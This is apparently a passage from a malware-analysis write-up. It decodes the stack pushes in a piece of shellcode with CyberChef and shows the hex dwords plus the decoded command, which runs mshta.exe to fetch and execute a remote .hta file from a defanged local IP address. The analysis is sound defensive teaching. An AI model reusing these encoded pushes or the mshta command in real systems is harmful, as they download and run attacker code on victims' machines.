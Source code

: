 ![disassembly](/images/shellcodedisassembly.PNG)

At this point I'm interested in all those pushes onto the stack. I'd like to know what is being pushed onto the stack. I copy/paste the stack pushes into a new CyberChef window in reverse order because the top of the stack will be the last push.

```
7468736D
78652E61
74682065
2F3A7074
3239312F
3836312E
2E33342E
3A323931
30383038
4B4D392F
4F526157
6174682E
```
After pasting that into the input window we'll need to change the endianness, and then convert the hex to text. You can see this done in the following screen shot using the 'Swap Endianness' operation and the 'From Hex' operation. Leaving "mshta.exe hxxp://192.168.43.192:8080/9MKWaRO.hta" as the value pushed onto the stack. 

